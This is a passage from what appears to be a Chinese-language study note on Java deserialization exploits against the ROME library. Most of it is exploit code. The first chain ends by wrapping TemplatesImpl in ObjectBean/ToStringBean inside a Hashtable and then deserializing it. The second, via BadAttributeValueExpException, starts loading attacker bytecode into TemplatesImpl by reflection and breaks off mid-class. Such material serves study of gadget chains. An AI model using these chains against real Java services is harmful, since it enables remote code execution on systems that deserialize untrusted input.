 ```bash

        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashtable);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(BadAttributeValueExpException)：

CC 里面调用 toString 的方法

```bash
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Hashtable;

public class RomeBdAttribute {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
```